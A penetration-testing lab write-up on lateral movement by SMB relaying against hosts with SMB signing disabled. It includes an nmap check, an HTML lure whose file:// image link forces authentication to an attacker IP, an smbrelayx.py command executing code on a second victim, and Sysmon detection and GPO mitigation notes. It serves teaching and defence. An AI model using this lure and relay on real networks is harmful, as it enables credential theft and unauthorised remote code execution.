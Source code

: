 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled. 

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-&gt; `10.0.0.5` -relays to-&gt; `10.0.0.6` executes code with victim1\(10.0.0.2\) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-31-10-45-27.png)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below is an gif showing the technique in action - on the left - victim 1 opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system \(on the right\). Once the authentication attempt comes in, it gets relayed to victim2@10.0.0.6 and ipconfig gets executed:

![](../.gitbook/assets/peek-2018-12-30-22-31.gif)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](../.gitbook/assets/screenshot-from-2018-12-31-13-29-13.png)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network client: Digitally sign communications \(always\)** to `Enabled`:

![](../.gitbook/assets/screenshot-from-2018-12-31-10-36-45.png)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-31-11-05-59.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}



